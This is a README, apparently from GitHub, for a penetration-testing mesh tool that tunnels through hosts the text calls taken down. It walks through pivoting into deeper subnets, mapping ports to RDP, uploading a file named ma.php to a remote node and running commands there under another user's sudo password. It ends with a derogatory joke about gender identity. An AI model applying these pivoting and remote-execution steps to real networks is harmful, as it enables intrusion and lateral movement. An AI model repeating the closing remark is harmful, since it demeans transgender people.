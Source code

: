 # Mesh Tweaked for Advanced Penetration Testing

**Cloud native** mesh networking, now introduced to intranet pentests.

## Build and Install

Pre-compiled binaries could be found on GitHub Releases.

For Mainland Chinese users, please use the [Coding.net mirror]().

### Manually build from source

1. Download `go>=1.18`,
2. Clone this repository and `make` to build the binaries from source.

## Usage

Learn usages through an example.

Assuming:

1. you are using `192.168.137.1/24`,
2. you have taken down `192.168.137.101/24`,
3. `192.168.137.101/24` also has address `192.168.56.101/24`,
4. you have taken down `192.168.56.102/24` too,
5. `192.168.56.102` also has address `10.103.10.102/24`.
6. now you want to break into `10.103.10.0/24` through `192.168.56.102/24`

Setup mesh network on the entrypoint:

```shell
# Exec on 192.168.137.101
./mtsvc -l "mtstp://0.0.0.0:10080"
```

Connect an individual endpoint to the mesh network:

```shell
# Exec on 192.168.137.102
./mtsvc -u "mtstp://192.168.137.101:10080"
```

Or ALTERNATIVELY, connect from entrypoint to that individual endpoint:

```shell
# Exec on 192.168.137.102
./mtsvc -l "mtstp://0.0.0.0:10080"
# Exec on the interactive shell later. druB is node name of `101`.
addprobe durB 192.168.137.102:10080
```

Access the mesh endpoint, interactively:

```shell
# Exec on 192.168.137.1
./mtsvc -u "mtstp://192.168.137.101:10080" -i
# Exec query without being interactive
./mtsvc -u "mtstp://192.168.137.101:10080" -c "listnodes"
```

Show nodes on the mesh network:

```shell
listnodes
```

Create tunnel mapping:

```shell
# Aagd is node name of `192.168.56.102`
addmapping zero:192.168.137.1:4321 Aagd:10.103.10.34:3389
# if ip address is 0.0.0.0 or same as node ip,
# or specified with `--listen` flag, the mapping will be reversal
addmapping zero:192.168.137.1:10050 Aagd:10.103.10.102:10050
addmapping zero:192.168.137.1:10050 Aagd::10050 --listen
```

Upload and exec command on remote node:

```shell
# Inspect node
inspect Aagd
# Upload or download files with syncfile
syncfile /tmp/ma.php Aagd:/tmp/ma.php
# Will execute with environment loaded non-login shell as "arthur"
execute "whoami" --sudo "arthur" --password "123456"
```

Use `[fe80::wtf]` if you want to conquer over IPv6.

## Protocols

By default, MTFAPT use MTSTP as protocol for control plane, and
direct L4 routing for data plane.

Alternatively you can use http to wrap up both
control plane or data plane.

socks5, http/2, https, QUIC,DNS,WS+TLS will be supported in the future.

## One more thing

This framework may be robust enough to serve as a L4 service mesh in the future.

## And another one...

Name it *MtFs Accept Pp Trimmed* to support those who are suffering
from gender identification disorder on the earth!
